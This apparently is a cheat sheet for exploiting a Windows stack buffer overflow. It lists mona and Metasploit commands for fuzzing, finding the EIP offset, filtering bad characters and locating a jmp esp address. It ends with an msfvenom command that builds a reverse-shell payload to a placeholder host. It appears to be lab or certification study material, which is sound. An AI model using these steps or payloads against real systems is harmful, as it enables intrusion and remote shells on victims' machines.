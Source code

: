 Buffer overflow
================================================================
- Set workingfolder	
    `!mona config -set workingfolder c:\mona\%p`
- Fuzzing	
    `Using fuzzer.py`
- create pattern on bytes crashes	
    `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [bytes]`
- findmsp on bytes crashes	
    `!mona findmsp -distance [bytes_range]`

- check for eip offset value

- set value offset and retn value	

- Make sure eip same with retn value	

- check bad character	
    `!mona bytearray -b "\x00"`

- generate a string of bad character	

    `Using badchars.py`

- compare bad character 	
    `!mona compare -f bytearray.bin -a [esp address]`

- check list possible bad chars	

- generate new bad chars with possible chars we found until unmodified with esp address	

- find jump point choose the top one	
    `!mona jmp -r esp -cpb  "\x00[possible bad chars]"`

update retn with new address from jump point	
    `retn = reverse address ("\xaf\x11\x50\x62")`

- create msfvenom payload 	
    `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "[badchars]" -f c`

- add padding	
    `"\x90" * 16`
